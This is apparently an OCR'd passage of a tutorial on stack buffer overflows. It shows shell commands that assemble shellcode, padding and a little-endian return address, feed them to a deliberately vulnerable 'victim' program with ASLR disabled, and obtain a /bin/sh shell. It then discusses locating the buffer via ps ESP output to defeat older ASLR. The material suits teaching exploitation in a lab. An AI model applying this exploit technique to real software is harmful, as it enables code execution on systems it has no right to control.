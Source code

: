 It actually turned out that that I was pointing to the wrong stack address before.  
The one below is now correct
```
$ a=`printf %016x 0x7fffffffeab0 | tac -rs..`
$ echo $a
b0eaffffff7f0000
```
The code below will first print out the content of the shellcode file, along with 40 bytes of 0, and $a variable in endian-form 
This hexdump will then be reversed and overwrite the RBP register with 8-bytes of 0, the 32-bytes of 0 on the rest of the buffer  
That means that the return address will then point to the beginning of our shellcode. That is the name buffer.  
The commandline will now allow code injection such as our example below with cat.  
```
$ ( ( cat shellcode ; printf %080d 0 ; echo $a ) | xxd -r -p ; cat ) | setarch `arch` -R ./victim

0x7fffffffeab0
What's your name?
World
Hello, ▒_H1▒▒;H1▒H1▒▒▒▒▒▒/bin/sh!

ls
a.out  shell.c  shellcode  victim  victim.c
```
## The Importance of Being Patched ##
Check out the cmd and esp
```
$ ps -eo cmd,esp
CMD                              ESP
/sbin/init                  00000000
[kthreadd]                  00000000
[migration/0]               00000000
[ksoftirqd/0]               00000000
[migration/0]               00000000
[watchdog/0]                00000000
[migration/1]               00000000
[migration/1]               00000000
[ksoftirqd/1]               00000000
[watchdog/1]                00000000
[migration/2]               00000000
...
```
Check the ESP of victim
```
$ ps -o cmd,esp -C victim
CMD                              ESP
./victim                    00000000
```
The code above was not helpful as we cannot find out the random address of our name buffer.  
The reason for this is because the newer systems counteract the ability to determine the buffer address.  
Therefore we run again at an older system  
```
$ ps -o cmd,esp -C victim
CMD                              ESP
./victim                    ffffe318
```
The distance between the stack pointer 0x7fffffe038 to the pointer of the name buffer 
```
$ echo $((0x7fffffea90-0x7fffffea38))
88
```
We then run without the ASLR Protection  
We can still beat the old protection by offseting the current random name buffer by 88
